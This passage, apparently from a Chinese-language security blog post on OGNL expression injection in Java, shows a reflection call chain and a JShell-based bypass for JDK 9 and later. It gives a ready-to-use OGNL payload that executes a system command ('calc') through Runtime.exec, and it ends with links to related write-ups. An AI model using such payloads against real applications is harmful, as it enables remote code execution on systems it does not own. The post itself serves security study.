

整个流程如下：

```
Object.Class()
Class.forName()
Class.getDeclaredMethods()
Method.invoke()
Method.invoke()
```

### Jshell绕过

从Java 9开始提供了一个叫jshell的功能，jshell是一个REPL(Read-Eval-Print Loop)命令行工具，提供了一个交互式命令行界面，在jshell中我们不再需要编写类也可以执行Java代码片段，开发者可以像python和php一样在命令行下愉快的写测试代码了。

这里只需要注意 jdk 版本就行了，我这里用的 11。

直接丢 payload，因为这里执行代码没有什么限制。

```
String expression2 = "@jdk.jshell.JShell@create().eval('Runtime.getRuntime().exec("calc");')";
```



## 参考链接

<https://chenlvtang.top/2022/08/11/Java%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%B9%8BOGNL/#google_vignette>

<https://xz.aliyun.com/news/9930>

<https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/OGNL/#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0>

<https://boogipop.com/2023/04/25/Struct2%20OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/>

<https://www.bookstack.cn/read/anbai-inc-javaweb-sec/javase-JShell-README.md>
